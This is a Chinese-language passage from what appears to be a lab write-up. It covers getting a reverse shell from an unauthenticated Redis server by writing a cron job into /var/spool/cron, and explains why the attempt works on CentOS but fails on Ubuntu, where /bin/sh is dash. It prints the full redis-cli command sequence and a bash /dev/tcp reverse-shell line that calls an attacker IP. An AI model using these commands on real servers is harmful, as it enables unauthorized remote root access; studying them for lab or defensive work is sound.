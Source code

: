 开个终端写入反弹shell定时任务

::: danger
如果使用的centos，这里你可能会执行成功，反弹shell。如果是ubuntu，过程比较曲折，中间大部分是补充内容，且最后也没有利用成功，为什么有师傅ubuntu能成功？可恶，难道这就是这副身躯的极限了吗？
:::

```bash
./redis-cli -h 192.168.237.140 -p 6379

# 每分钟反弹一次
set shell "\n\n*/1 * * * *  bash -c \"bash -i  >&/dev/tcp/192.168.237.1/4444 0>&1\""
config set dir /var/spool/cron/
config set dbfilename root
save
```

一直收不到shell，看其他师傅讲两种情况，更站向第二种解释，后面还有第三种解释

::: tip
- 由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败
- ubuntu下执行定时任务使用的shell是/bin/sh指向**dash**，而**dash**并不支持**bash -i**，导致命令执行失败
:::

失败报错：`/bin/sh: 1: /bin/bash -i >& /dev/tcp/192.168.0.106/7777 0>&1: not found`

可以知道ubuntu执行定时任务使用的shell是`/bin/sh`

```bash
gzctf@ubuntu:~$ ls -al /bin/sh
lrwxrwxrwx 1 root root 4 Mar 23  2022 /bin/sh -> dash
```

又可以知道ubuntu的`/bin/sh`指向了`dash`

了解一下，`dash`是什么

> dash 是 Ubuntu 和许多其他 Linux 发行版上的默认系统 shell，尤其是在脚本执行时，如：定时任务。它比 bash 更加轻量，并且兼容性有所差异。bash -i 代表启动一个交互式 shell，而 dash 不支持 -i 选项，因为它不需要启动交互式 shell

所以，`dash`在执行定时任务里的`bash -i ...`不会成功执行。centos可以成功执行是因为centos执行定时任务使用的shell是`/bin/bash`
